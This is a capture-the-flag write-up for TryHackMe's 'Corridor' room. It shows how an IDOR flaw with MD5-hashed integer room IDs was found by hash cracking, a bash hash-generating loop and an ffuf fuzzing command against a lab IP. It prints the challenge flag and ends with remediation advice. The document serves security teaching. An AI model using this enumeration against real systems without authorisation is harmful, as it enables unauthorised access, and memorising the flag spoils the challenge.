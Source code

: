 # TryHackMe Corridor Challenge

## Executive Summary

This report details the exploitation of the "Corridor" challenge on TryHackMe, classified as an easy-difficulty Capture The Flag (CTF) room. The objective was to escape a virtual corridor by identifying and exploiting an Insecure Direct Object Reference (IDOR) vulnerability. The vulnerability involved URL endpoints using MD5 hashes as identifiers for sequential room numbers, allowing unauthorized access to hidden pages.

Key findings include the discovery of hashed room identifiers, pattern recognition of MD5 hashing for integers, and successful fuzzing to locate a valid endpoint containing the flag. The challenge was completed without advanced techniques, relying on enumeration and basic web application testing tools.

## Scope

- **Target System**: TryHackMe Corridor challenge web application (IP: 10.201.111.203).
- **Objective**: Identify and exploit IDOR vulnerability to access restricted content and retrieve the flag.
- **Assumptions**: The target is a simulated environment with no real-world impact. All actions were performed ethically within the CTF context.
- **Out of Scope**: Physical access, network infrastructure beyond the web application, or exploitation of unrelated vulnerabilities.

## Methodology

The assessment followed a structured penetration testing methodology adapted for CTF challenges:

1. **Reconnaissance**: Initial exploration of the web application to understand its structure and identify potential entry points.
2. **Enumeration**: Detailed mapping of accessible resources, including URL patterns and hidden elements.
3. **Vulnerability Identification**: Analysis of observed patterns to hypothesize underlying weaknesses (e.g., IDOR via hashed identifiers).
4. **Exploitation**: Development and execution of proof-of-concept exploits to access restricted areas.
5. **Post-Exploitation**: Retrieval of the flag and documentation of findings.

Tools used included web browsers for manual navigation, online hash cracking services, command-line utilities for hash generation, and fuzzing tools for automated discovery.

## Enumeration

### Step 1: Initial Access and Site Exploration
- Accessed the target web application at `http://10.201.111.203`.
- Observed a corridor-themed interface with clickable areas representing doors or rooms.
- Upon clicking a room, the URL changed to include a hexadecimal string, e.g., `http://10.201.111.203/c81e728d9d4c2f636f067f89cc14862c`.
- Suspected these strings were hashes due to their length (32 characters) and format, indicative of MD5.

### Step 2: Hash Analysis
- Submitted the observed hash (`c81e728d9d4c2f636f067f89cc14862c`) to an online hash cracking service (e.g., crackstation.net).
- Result: The hash corresponded to the integer `2`.
- Repeated the process for other rooms, confirming a pattern where each room's hash represented a sequential integer (e.g., room 1, 2, 3, etc.).

### Step 3: Source Code Inspection
- Inspected the page source code to identify additional clues.
- Located an HTML `<map>` element defining clickable areas (rooms) with `href` attributes containing the same hashes.
- Extracted all hashes from the source for further analysis:
  ```
  c4ca4238a0b923820dcc509a6f75849b (likely room 1)
  c81e728d9d4c2f636f067f89cc14862c (room 2)
  eccbc87e4b5ce2fe28308fd9f2a7baf3 (room 3)
  a87ff679a2f3e71d9181a67b7542122c (room 4)
  e4da3b7fbbce2345d7772b0674a318d5 (room 5)
  1679091c5a880faf6fb5e6087eb1b2dc (room 6)
  8f14e45fceea167a5a36dedd4bea2543 (room 7)
  c9f0f895fb98ab9159f51fd0297e236d (room 8)
  45c48cce2e2d7fbdea1afc51c7c6ad26 (room 9)
  d3d9446802a44259755d38e6d163e820 (room 10)
  6512bd43d9caa6e02c990b0a82652dca (room 11)
  c20ad4d76fe97759aa27a0c99bff6710 (room 12)
  c51ce410c124a10e0db5e4b97fc2af39 (room 13)
  ```
- Hypothesized that the application used MD5 hashes of integers to identify rooms, potentially allowing IDOR by guessing or generating additional hashes.

## Exploitation

### Step 1: Hash Generation
- Generated MD5 hashes for a range of integers (0 to 20) to cover potential rooms beyond those visible in the source.
- Used the following Bash command to create a wordlist of hashes:
  ```bash
  (for i in 0 $(seq 14 20); do echo -n $i | md5sum | awk '{print $1}'; done) > hashes.txt
  ```
- This produced a file `hashes.txt` containing MD5 hashes for integers 0, 14 through 20.

### Step 2: Directory Fuzzing
- Employed ffuf (Fast web fuzzer) to test the generated hashes as URL paths.
- Command executed:
  ```bash
  ffuf -w hashes.txt -u http://10.201.111.203/FUZZ -ac -c
  ```
- Parameters:
  - `-w hashes.txt`: Wordlist of potential hashes.
  - `-u http://10.201.111.203/FUZZ`: Target URL with FUZZ placeholder.
  - `-ac`: Auto-calibration to reduce false positives.
  - `-c`: Colorized output.
- Output indicated one valid endpoint:
  ```
  cfcd208495d565ef66e7dff9f98764da [Status: 200, Size: 797, Words: 121, Lines: 34, Duration: 1023ms]
  ```
- Verified that `cfcd208495d565ef66e7dff9f98764da` is the MD5 hash of `0`.

### Step 3: Flag Retrieval
- Navigated to the discovered URL: `http://10.201.111.203/cfcd208495d565ef66e7dff9f98764da`.
- The page contained the flag: `flag{2477ef02448ad9156661ac40a6b8862e}`.

## Conclusion

The Corridor challenge was successfully completed by exploiting an IDOR vulnerability through predictable MD5 hashing of room identifiers. The key to success was recognizing the hash pattern and using fuzzing to enumerate hidden endpoints.

### Lessons Learned
- IDOR vulnerabilities can arise from insecure object references, such as using hashes without proper access controls.
- Systematic enumeration and pattern recognition are crucial in CTF challenges.
- Tools like ffuf streamline the discovery process for web application vulnerabilities.

### Recommendations
- Implement proper authorization checks for object access.
- Avoid using predictable identifiers; consider random or encrypted values with server-side validation.
- Regularly audit web applications for IDOR and similar flaws.

### Tools Used
- Web Browser (for manual navigation and source inspection).
- crackstation.net (online hash cracking).
- md5sum (command-line hash generation).
- ffuf (web fuzzing tool).

Flag: `flag{2477ef02448ad9156661ac40a6b8862e}`
